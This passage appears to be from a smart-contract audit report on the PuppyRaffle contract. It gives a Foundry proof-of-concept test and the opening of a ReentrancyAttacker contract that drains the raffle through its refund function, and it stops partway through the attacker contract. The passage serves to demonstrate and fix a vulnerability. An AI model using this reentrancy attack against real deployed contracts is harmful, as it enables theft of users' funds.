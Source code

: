 - Code
    
    Paste the following into `PuppyRaffleTest.t.sol`
    
    ```solidity
    function testReentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
    
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(
            puppyRaffle
        );
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);
    
        uint256 startingAttackContractBalance = address(attackerContract)
            .balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
    
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();
    
        console.log(
            "Starting Attacker contract balance: %s",
            startingAttackContractBalance
        );
        console.log(
            "Starting PuppyRaffle contract balance: %s",
            startingPuppyRaffleBalance
        );
    
        console.log(
            "Ending attacker contract balance: %s",
            address(attackerContract).balance
        );
        console.log(
            "Ending PuppyRaffle contract balance: %s",
            address(puppyRaffle).balance
        );
    }
    ```
    
    And this contract as well:
    
    ```solidity
    contract ReentrancyAttacker {
        PuppyRaffle puppyRaffle;
        uint256 entranceFees;
        uint256 attackerIndex;
    
        constructor(PuppyRaffle _puppyRaffle) {
            puppyRaffle = _puppyRaffle;
            entranceFees = puppyRaffle.entranceFee();
        }
    